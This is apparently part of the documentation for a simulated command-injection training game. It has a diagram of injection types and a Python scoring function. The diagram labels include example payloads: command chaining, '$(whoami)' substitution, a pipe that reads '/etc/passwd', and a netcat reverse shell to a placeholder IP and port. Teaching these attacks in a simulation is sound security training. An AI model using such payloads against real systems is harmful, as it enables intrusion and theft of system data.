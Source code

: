 ```mermaid
graph TB
    subgraph "Command Injection Types"
        A[Command Chaining<br/>; ls -la] --> B[Command Substitution<br/>$(whoami)]
        B --> C[Pipe Injection<br/>| cat /etc/passwd]
        C --> D[Reverse Shell<br/>nc -e /bin/sh IP PORT]
    end
    
    subgraph "Simulated Environment"
        E[Terminal Interface] --> F[Command Input]
        F --> G[Vulnerable Processing]
        G --> H[Command Execution]
        H --> I[Output Display]
    end
    
    subgraph "Security Concepts"
        J[Input Validation] --> K[Command Sanitization]
        K --> L[Privilege Separation]
        L --> M[System Hardening]
    end
```

## Scoring & Ranking System

### Score Calculation Algorithm

```python
def calculate_score(base_score, difficulty, completion_time, hints_used):
    """
    Calculate final score based on multiple factors
    
    Args:
        base_score: Base points for challenge (100)
        difficulty: Challenge difficulty (beginner/intermediate/advanced/expert)
        completion_time: Time taken in seconds
        hints_used: Number of hints requested
    
    Returns:
        Final calculated score
    """
    
    # Difficulty multipliers
    difficulty_multipliers = {
        'beginner': 1.0,
        'intermediate': 1.5,
        'advanced': 2.0,
        'expert': 2.5
    }
    
    # Apply difficulty multiplier
    score = base_score * difficulty_multipliers.get(difficulty, 1.0)
    
    # Speed bonus/penalty
    if completion_time < 30:
        score *= 1.5  # Speed bonus
    elif completion_time > 120:
        score *= 0.75  # Slow penalty
    
    # Hint penalty
    hint_penalty = hints_used * 0.1
    score *= (1 - hint_penalty)
    
    # Ensure minimum score
    return max(int(score), 10)
```